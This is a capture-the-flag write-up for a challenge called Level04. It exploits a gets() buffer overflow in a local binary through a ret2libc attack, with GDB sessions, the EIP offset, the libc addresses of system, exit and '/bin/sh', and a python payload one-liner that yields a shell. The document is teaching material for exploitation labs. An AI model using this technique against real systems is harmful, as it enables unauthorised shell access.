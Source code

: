 
# Level04 - Exploiting a Buffer Overflow with Ret2libc

## Objective

The goal of this challenge is to exploit a buffer overflow vulnerability in the program to execute a shell using a Ret2libc attack.

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level04
Give me some shellcode, k
coucou
child is exiting...
```

The program asks for input and then exits.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The program performs a `fork()`, and the child process reads input using `gets()`. The parent process uses `ptrace` to monitor the child, checking if it calls the `exec` function.

```assembly
0x080487f6 <+302>: mov    DWORD PTR [esp],0x8048931
0x080487fd <+309>: call   0x8048500 <puts@plt>
```

If `exec()` is called, the program outputs `"no exec() for you"`.

## Step 3: Exploiting the Buffer Overflow

We can overflow the `gets()` buffer in the child process. Use a long input string to find the offset to control EIP (Instruction Pointer).

```bash
$ gdb -q ./level04
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
```

The program segfaults, indicating control of EIP.

### Finding the Offset

```bash
(gdb) i r
eax            0x0   0
...
eip            0x6e6e6e6e  0x6e6e6e6e
```

Using an offset-finding script reveals that EIP is overwritten at offset `156`.

## Step 4: Ret2libc Attack

We will use a Ret2libc attack by calling `system("/bin/sh")`. We need the addresses of `system()`, `exit()`, and the string `"/bin/sh"`.

### Finding Required Addresses

1. **`system` Address**:
   ```bash
   (gdb) info function system
   0xf7e6aed0  system
   ```

2. **`exit` Address**:
   ```bash
   (gdb) info function exit
   0xf7e5eb70  exit
   ```

3. **`/bin/sh` String**:
   ```bash
   (gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
   0xf7f897ec
   ```

### Building the Payload

Construct the payload with the addresses found:

```bash
("B" * 156) + system + exit + "/bin/sh"
```

### Executing the Exploit

Save the payload to a file and run the program:

```bash
$ python -c 'print "B"*156+"Ð®æ÷"+"pëå÷"+"ìø÷"' > /tmp/payload
$ cat /tmp/payload - | ./level04
Give me some shellcode, k
whoami
level05
```

## Summary

- The program is vulnerable to a buffer overflow via `gets()`.
- Using the overflow, we performed a Ret2libc attack to call `system("/bin/sh")`.
- This allowed us to bypass security checks and gain shell access.

This exercise demonstrates a common technique for exploiting buffer overflows when direct execution is restricted.
